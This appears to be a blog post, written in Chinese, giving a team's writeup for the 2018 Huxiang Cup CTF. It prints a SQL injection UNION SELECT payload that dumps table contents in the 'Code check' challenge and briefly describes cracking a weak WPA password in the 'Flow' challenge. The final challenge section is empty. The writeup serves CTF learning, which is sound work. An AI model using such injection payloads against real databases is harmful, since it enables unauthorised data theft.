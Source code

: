 ```yaml
---
layout: posts
title: 湖湘杯2018Writeup--Wa1erDrop
date: 2018-11-19 15:24:47
tags: writeup
---
```


湖湘杯2018writeup



## 题目名 Code check

解题思路、相关代码和 Flag 截图：

扫目录发现了 /news 下载源码

{% asset_img 1.png %}

根据源码构造加密程序

{% asset_img 2.png %}

Sql 注入

Payload:

(3/**/union/**/select/**/1,GROUP_CONCAT(id),GROUP_CONCAT(title),4/**/from/**/notice2hxb2018)

RUV4SUlhMG4vUFlITDVQdS9xMndUMlI0V2RwYlZkYVcvd3lLL0d5M2lENEFuNzFvVGNWTWRBTXB2ay8vVk9JbVBjZUxWWUhiZTlzMEtXVitnam5JcFo

{% asset_img 3.png %}

## 题目名 Flow

解题思路、相关代码和 Flag 截图：

Wireshark 打开发现为 802.11

弱密码爆破

{% asset_img 4.png %}

生成 psk

{% asset_img 5.png %}

{% asset_img 6.png %}

查找 flag

{% asset_img 7.png %}

## 题目名ReadFile

解题思路、相关代码和 Flag 截图：
